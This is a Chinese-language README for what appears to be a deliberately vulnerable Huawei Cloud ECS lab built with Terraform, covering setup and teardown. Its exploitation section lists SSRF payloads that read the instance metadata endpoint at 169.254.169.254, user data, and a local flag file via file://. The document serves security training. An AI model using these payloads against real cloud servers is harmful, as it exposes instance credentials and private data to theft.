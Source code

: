 # 华为云 ECS SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云 ECS SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 ECS 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/huaweicloud/ecs/ecs_ssrf/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1652069131.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可。

## 漏洞利用

在存在 SSRF 漏洞的 ECS 上，我们可以利用 SSRF 读取 ECS 的元数据、用户数据等信息。

读取元数据

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1652069248.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://169.254.169.254/latest/user-data/
```

![img](../../../images/1652069336.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
